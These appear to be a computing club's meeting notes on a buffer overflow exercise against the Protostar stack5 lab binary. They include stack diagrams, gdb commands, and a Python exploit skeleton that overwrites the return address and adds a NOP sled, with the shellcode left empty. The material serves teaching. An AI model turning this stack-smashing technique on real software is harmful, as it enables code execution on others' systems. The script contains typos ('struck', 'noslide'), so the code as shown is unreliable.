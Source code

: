 # Code injection wish shell code.

> See the previous meeting notes https://github.com/GVSU-Computing-Club/Meeting-Notes/blob/master/11-1-18-Exploiting.md 

Resource for shell code: http://shell-storm.org/shellcode/ 

## Stack 5

```
----------------------
|                    |
| Buffer (64 bytes)  | 
|                    |
----------------------
|   Base Pointer     |
----------------------
|   Return Pointer   | <- Change this to where our shell code
----------------------
|     0xbffff7f0     |
|     Shell code     |
----------------------
```

We want to modify the return address to point to your shell code so you can do whatever you want.

We are not able to modify code at in the folder, so we will run code from the home directory

```
cd ~
ln -s /opt/protostar/stack5/ ./stack5

```

Make a file called exploit.py

```
#!/usr/bin/env python 

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQRRRRSSSSTTTTUUUUVVVV"

print(padding)

```

```
$ chmod +x exploit.py
$ ./exploit.py > input
```

The above code helps us measure where the return address. It was found that the return address is where 'TTTT' is.

You can put gdb commands in ```vim .gdbinit``` which will run everytime that you run gdbs

```
set disassembly-flavor intel #Sets assembly to intel style 
set breakpoint pending on #Lets you put breakpoints anywhere without questions

b main #Sets breakpoint at the main function
```

```
run < input #Pass input to the 
c #continue
x/40xw $esp #Examine 40 words and print it out it in hex where $esp is locateds
c #continue
```
Continue moves instruction by instruction 

A problem is that the location of the stack may change so....


NOP is an instruction that means don't do anything.
So we will fill out space the space between the return address and our shell code.

```
----------------------
| Return Pointer Addr| 
----------------------
|                    |
|                    |
|                    |
|                    |
|        NOP         |  <- Return pointer 
|                    | 
|                    |
|                    |
|                    |
----------------------
|     0xbffff7f0     |
|     Shell code     |
----------------------
```

```
#!/usr/bin/env python
import struct

#Make a string for the padding that will go up to the reutnr address
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQRRRRSSSS"

#Make a string for the new return address
address = struck.pack("I", 0xbffff7f0+50)

#Make a string for 100 NOP instructions
nopslide = "\x90"*100

#The shellcode we are injecting 
shellcode = ""

payload = padding + address + noslide + shellcode

print(payload)
```

**Your address might be different. Use gdb to find the address**
